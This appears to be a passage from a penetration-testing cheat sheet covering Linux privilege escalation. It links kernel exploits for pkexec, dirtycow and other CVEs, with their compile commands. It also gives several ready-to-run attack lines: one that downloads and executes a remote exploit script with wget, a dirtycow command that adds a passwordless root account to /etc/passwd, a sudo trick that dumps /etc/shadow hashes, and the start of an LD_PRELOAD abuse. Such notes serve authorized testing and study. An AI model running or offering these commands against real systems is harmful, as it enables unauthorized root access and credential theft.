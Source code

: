 -----

#### subdomains-top1million-20000.txt

* Type
  - **Web Subdomain**
* Download
  - [subdomains-top1million-20000.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-20000.txt)

-----

## Privilege Escalation

### Linux

https://guif.re/linuxeop

#### **Kernel Exploit**

- [CVE-2017-16995](https://github.com/rlarabee/exploits/tree/master/cve-2017-16995)
    - Test on Kernel 4.4.0 (4.4.0-116-generic)
    - `gcc cve-2017-16995.c -o cve-2017-16995`
- [CVE-2012-0056 (memodipper)](https://github.com/lucyoa/kernel-exploits/blob/master/memodipper/memodipper.c)
    - `gcc memodipper.c -o m.out`
- [CVE-2010-2959 (i-can-haz-modharden)](https://raw.githubusercontent.com/macubergeek/ctf/master/privilege%20escalation/i-can-haz-modharden.c)
- Compile for old OS
    - `gcc -m32 ./{INPUT.c) -o {OUTPUT} -Wl,--hash-style=both`
- [CVE-2021-4034 (pkexec)](https://haxx.in/files/blasty-vs-pkexec.c)
    - `gcc blasty-vs-pkexec.c -o meow`
    - `source <(wget https://raw.githubusercontent.com/azminawwar/CVE-2021-4034/main/exploit.sh -O -)`
- [2016-5195 (dirtycow)](https://www.exploit-db.com/download/40611)
    - ```
      gcc -pthread 40611.c -o dirtycow
      ./dirtyc0w /etc/passwd "root1:yeDupmFJ8ut/w:0:0:root:/root:/bin/bash
      "
      ```
- `gcc: error trying to exec 'cc1': execvp: No such file or directory`
    - `export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin`
 - [All dirty cow exploits](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

-----

#### Sudo

- Hostname
    - Try `sudo -h {hostname} -l`
- Program
    - apache2
        - `sudo apache2 -f /etc/shadow`
        - Show root hash
- Environment Variables
    - If `env_keep` have `LD_PRELOAD`
        - preload.c
            ```c=
            #include <stdio.h>
            #include <sys/types.h>
            #include <stdlib.h>

